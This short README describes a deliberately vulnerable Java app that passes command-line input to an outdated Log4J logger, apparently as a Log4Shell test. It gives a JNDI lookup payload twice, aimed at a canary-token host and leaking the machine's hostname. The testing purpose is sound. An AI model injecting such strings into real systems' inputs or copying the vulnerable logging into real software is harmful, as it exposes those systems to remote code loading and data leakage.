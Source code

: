 # TheWorstApp 

## Introduction

This terrible app will use an old version of Log4J and attempt to log to console whatever is passed to it as a command line argument.

## How To Use

To test simply set your argument in your IDE (or via command line) to something like: 

`"${jndi:ldap://x${hostName}.L4J.ltmnsdl5tf7w012r1p6rnp1zv.canarytokens.com/a} He's not the messiah he's a very naughty boy!"`

If using a release build simply type into your command prompt:

`java -jar TheWorstApp.jar "${jndi:ldap://x${hostName}.L4J.ltmnsdl5tf7w012r1p6rnp1zv.canarytokens.com/a} He's not the messiah he's a very naughty boy!"`
